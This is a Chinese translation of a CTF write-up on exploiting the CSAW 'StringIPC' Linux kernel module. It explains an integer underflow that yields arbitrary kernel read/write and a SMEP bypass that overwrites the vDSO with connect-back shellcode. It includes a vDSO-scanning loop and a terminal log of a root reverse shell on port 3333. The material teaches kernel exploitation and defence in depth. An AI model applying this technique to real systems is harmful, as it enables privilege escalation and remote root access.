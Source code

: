 ```yaml
---
layout: post
title:  "Bypassing SMEP Using vDSO Overwrites(使用vDSO重写来绕过SMEP防护)"
date:   2015-11-25 3:30:02
summary: 在Intel的SMEP( Ivybridge加入）和SMAP（本来应该是Haswell加入，最终推迟到了broadwell时才加入）中SMEP已经大规模的部署到了生产环境中，由于一些媒体的误导，企业和个人都对SMEP有着过高的期望，斯拉夫兵工厂至少在13个月以前就有针对SMEP绕过的weaponized exploit，这次itszn的绕过SMEP防护的实现非常的精彩，直接把SMEP绕过打成了“白菜价”，而另外一方面，经过h4rdenedzer0的研究和测试发现，虽然PaX/Grsecurity中的类似USERCOPY可以轻松防御这种绕过，但更有意思的是没有任何防御feature的情况下仅靠代码级别的调整也能启到security through obscurity的作用，至少可以防止massive exploit的通杀。这个case值得关注的点还是在于单点防御是无效的，系统层的加固必须以纵深防御的思路来做
categories: translation
---
```


Shawn: Intel的SMEP( Ivybridge加入）和SMAP（本来应该是Haswell加入，最终推迟到了broadwell时才加入）中SMEP已经大规模的部署到了生产环境中，由于一些媒体的误导，企业和个人都对SMEP有着过高的期望，斯拉夫兵工厂至少在13个月以前就有针对SMEP绕过的weaponized exploit，这次itszn的绕过SMEP防护的实现非常的精彩，直接把SMEP绕过打成了“白菜价”，而另外一方面，经过h4rdenedzer0的研究和测试发现，虽然PaX/Grsecurity中的类似USERCOPY可以轻松防御这种绕过，但更有意思的是没有任何防御feature的情况下仅靠代码级别的调整也能启到security through obscurity的作用，至少可以防止massive exploit的通杀。这个case值得关注的点还是在于单点防御是无效的，系统层的加固必须以纵深防御的思路来做，多个mitigation feature+代码级加固会让兵工厂也很蛋疼，当然另外一方面bypass难度提升了他们的利润也会上升;-)

原文地址 [Bypassing SMEP Using vDSO Overwrites](http://itszn.com/blog/?p=21)


译者：n3o4po11o

在今年的CSAW(Cyber Security Awareness Week)决赛中有几个内核相关的挑战。下文是关于我解决题名为"StringIPC"的思路。(作者为[Michael Coppola](https://twitter.com/mncoppola))

摆在我们面前的机器为一台64位ubuntu 14.04.3运行了3.13版本的内核并开启SMEP，kptr_restrict，demsg_restrict的虚拟机。内核中加载了名为"StringIPC"的内核模块，但在home目录中提供了该模块的源码。你可以在[这里](https://github.com/mncoppola/StringIPC/blob/master/main.c)找到源码，我也会在下文中展示一些重要的部分。

##分析内核模块

StringIPC模块实现了最基本的进程间通信的功能，允许对位于/dev/csaw的设备在不同通道下进行读写数据的操作。有8个控制码（codes）可以用来对通道进行创建，修改和读写数据。

{% highlight html %}
#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8
{% endhighlight %}

CSAW_ALLOC_CHANNEL允许用户创建一个新通道和根据给定的大小创建一个新缓冲区，CSAW_GROW_CHANNEL和CSAW_SHRINK_CHANNEL使用了krealloc来改变通道的缓冲区大小。CSAW_READ_CHANNEL和CSAW_WRITE_CHANNEL用来读取和写入由CSAW_SEEK_CHANNEL所指向的当前通道的内存数据。最后CSAW_OPEN_CHANNEL和CSAW_CLOSE_CHANNEL用来确定当前与ioctl进行交互的通道。

Bug存在于使用了krealloc的realloc_ipc_channel:
{% highlight html %}
static int realloc_ipc_channel ( struct ipc_state *state, int id, size_t size, int grow )
{
    struct ipc_channel *channel;
    size_t new_size;
    char *new_data;

    channel = get_channel_by_id(state, id);
    if ( IS_ERR(channel) )
        return PTR_ERR(channel);

    if ( grow )
        new_size = channel->buf_size + size;
    else
        new_size = channel->buf_size - size;

    new_data = krealloc(channel->data, new_size + 1, GFP_KERNEL);
    if ( new_data == NULL )
        return -EINVAL;

    channel->data = new_data;
    channel->buf_size = new_size;

    ipc_channel_put(state, channel);

    return 0;
}
{% endhighlight %}

当我们试图缩小通道缓冲区的大小时，我们缩小了一个比原来缓冲区大小还大1的值，此时new_size会发生underflow从而变成了INT_MAX。当krealloc调用时new_size+1，接着发生overflow回到了0。从krealloc的源码可以看出，当new_size为0时，返回一个ZERO_SIZE_PTR：
{% highlight html %}
void *krealloc(const void *p, size_t new_size, gfp_t flags) {
    void *ret;

    if (unlikely(!new_size)) {
         kfree(p);
         return ZERO_SIZE_PTR;
    }
...
{% endhighlight %}
ZERO_SIZE_PTR定义为((void \*)16)。当我们重新调整大小后，channel->data=0x10而channel_buf_size=INT_MAX。通过在0x10处获取偏移量，我们可以在内核空间(kernelspace)实现任意读写。

##任意写利用

既然我们可以任意读写，我们可以开始创建exploit。由于此时SMEP开启，我们不能直接覆盖一些数据然后跳转到用户空间(userspace)去执行已经提前准备好的shellcode。为了绕过SMEP我们可以使用一个覆盖vDSO的技术，来让另外一个进程以root权限运行进而运行我们反弹（conncet-back）shellcode。

整体的思路如下：vDSO同时映射在内核空间以及每一个进程的虚拟内存中，包括那些以root权限运行的进程。通过调用那些不需要上下文切换（context switching）的系统调用可以加快这一步骤(定位vDSO)。vDSO在用户空间(userspace)映射为R/X，而在内核空间(kernelspace)则为R/W。这允许我们在内核空间修改它，接着在用户空间执行。

下面是使用这个技术的步骤：
{% highlight html %}
1.实现任意读写
2.在内核空间定位vDSO
3.为root权限运行的进程创建反弹shellcode
4.用shellcode覆盖部分vDSO
5.监听反弹root shell
{% endhighlight %}
在我们利用StringIPC模块时，我们已经能够任意读写内存了，所以下一步我们将在runtime定位vDSO.

##Locating vDSO

下面是内核代码中用于在内核空间初始化vDSO页的代码段：

{% highlight html %}
static int __init init_vdso_vars(void) {
    int npages = (vdso_end - vdso_start + PAGE_SIZE - 1) / PAGE_SIZE;
    int i;
    char *vbase;
    vdso_size = npages << PAGE_SHIFT;
    vdso_pages = kmalloc(sizeof(struct page *) * npages, GFP_KERNEL);
    if (!vdso_pages)
        goto oom;
    for (i = 0; i < npages; i++) {
        struct page *p;
        p = alloc_page(GFP_KERNEL);
        if (!p)
            goto oom;
        vdso_pages[i] = p;
        copy_page(page_address(p), vdso_start + i*PAGE_SIZE);
    }
    vbase = vmap(vdso_pages, npages, 0, PAGE_KERNEL);
...
{% endhighlight %}
所以在内核空间中通过alloc_page分配了vDSO页，并且指针保存在了vdso_pages数组中。只有少数的几种方法能够定位这些页。如果能够读取/proc/kallsyms，你将能够通过vdso_pages直接获取这些地址。然而，这种情况在这次比赛不适用。第二种方法则是在内核空间中搜寻每一个页的开头，看是否有ELF头也出现了部分vDSO的映射。我们可以通过vDSO的标志(signatures)进一步缩小这些页的范围。下面是实现这个思路的代码：

{% highlight html %}
void* header = 0;
void* loc = 0xffffffff80000000;
size_t i = 0;
for (; loc<0xffffffffffffafff; loc+=0x1000) {
    readMem(&header,loc,8);
    if (header==0x010102464c457f) {
        fprintf(stderr,"%p elf\n",loc);
        readMem(&header,loc+0x270,8);
        //Look for 'clock_ge' signature (may not be at this offset, but happened to be)
        if (header==0x65675f6b636f6c63) {
            fprintf(stderr,"%p found it?\n",loc);
            break;
        }
    }
}
{% endhighlight %}
现在我们找到了vDSO所在的区域，我们就能用shellcode来覆盖它。

##反弹shellcode

此处用到的反弹shellcode和常见的x86-64 shellcode差不多，但有几个修改的地方。第一个修改为：只为root进程创建反弹shell。因为每一个调用gettimeofday的进程都会触发我们的shellcode，我们不需要那些没有root权限的进程的shell权限。我们可以通过调用 0x66(sys_getuid)系统调用并将其与0进行比较。如果没有root权限，我们继续调用0x66(sys_gettimeofday)系统调用，所以其他没有不相关的进程也不会受到太多影响。但同样在root进程当中，我们不想造成更多的问题，我们将通过0x39系统调用 fork一个子进程，父进程继续执行sys_gettimeofday，而由子进程来执行反弹shell。

我所使用的shellcode的汇编代码可以在[这里](https://gist.github.com/itsZN/1ab36391d1849f15b785)。它将连接到127.0.0.1:3333并执行"/bin/sh"

我们要做的最后一件事则是，dump vDSO并在gettimeofday所在的偏移处检查。只要我们知道我们可以在这个位置覆盖上shellcode，我们就可以在这等待某个进程进行调用。我设置了一个简单的cron任务来完成这个任务(root进程调用gettimeofday)。我最后的代码可以在[这里](https://gist.github.com/itsZN/20144eb7beefbc301bcf)找到。下面是程序运行的情况：

{% highlight html %}
csaw@team7:~$ id
uid=1000(csaw) gid=1000(csaw) groups=1000(csaw)
csaw@team7:~$ ./a.out 
allocate fd: 3 ret: 0 id:1
Shrink: 0 err:0
ZERO_SIZED_POINTER = 0x10
0xffffffff817bc000 elf
0xffffffff817d1000 elf
0xffffffff81b6c000 elf
0xffffffff81b9e000 elf
0xffffffff81c03000 elf
0xffffffff81c03000 found it?
Listening on [0.0.0.0] (family 0, port 3333)
Connection from [127.0.0.1] port 3333 [tcp/*] accepted (family 2, sport 58568)
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

##Final Notes

vDSO不是唯一一个同时映射在内核空间和用户空间的内存。在x86-64当中,vSYSCALL与vDSO实现类是的功能，但多了一点特性就是每次重启都在同一个位置（可能可以通过内核版本进行预测）。然而 kernel.vsyscall64并没有在本次比赛启用，所以我们将通过vDSO来完成这个目的。如果vm.vdso_enable设置为0，vDSO也会被绕过并且libc的wrapper function会默认调用正常的系统调用。

vDSO/vSYSCALL overwriting是一个非常有用的技术，它能够用在对于中断上下文(interrupt context)的利用，因为它不需要本地进程来映射一段内存，或者提升权限。

在解决这个问题当中本文提到的解决思路也不是唯一的，另外一个解决思路可以在[这里](https://github.com/mncoppola/StringIPC/blob/master/solution/solution.c)找到
